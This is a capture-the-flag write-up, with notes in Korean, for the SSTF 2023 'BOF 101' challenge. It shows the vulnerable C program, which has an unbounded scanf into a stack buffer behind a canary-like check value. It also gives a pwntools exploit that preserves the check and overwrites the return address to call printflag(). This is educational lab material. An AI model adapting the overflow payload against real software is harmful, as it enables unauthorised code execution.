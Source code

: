 # SSTF 2023 write up

## PWN - BOF 101

---

```python
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

void printflag(){ 
	char buf[32];
	int fd = open("/flag", O_RDONLY);
	read(fd, buf, sizeof(buf));
	close(fd);
	puts(buf);
}

int main() {
	int check=0xdeadbeef;
	char name[140];
	printf("printflag()'s addr: %p\n", &printflag);
	printf("What is your name?\n: ");
	scanf("%s", name);	
	if (check != 0xdeadbeef){
		printf("[Warning!] BOF detected!\n");
		exit(0);
	}
	return 0;
}
```

check로 할당된 mitigation을 bypass하고 BOF하는 문제다.

솔루션은 mitigation을 bypass하는 동시에 RET을 `printflag()` 주소로 덮어쓰도록 payload를 작성하고 전송하면 된다.

### ○ exploit

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

#context.log_level = 'debug' 

p = remote("bof101.sstf.site", 1337)   
#p = process("./bof101")

#pause()

# dummy + check + SFP + RET
payload = b'a'*(0x90-0x4) + p32(0xdeadbeef) + b'a'*0x8 + p64(0x4011f6)

p.sendlineafter(b'\n', payload)

p.interactive()
```
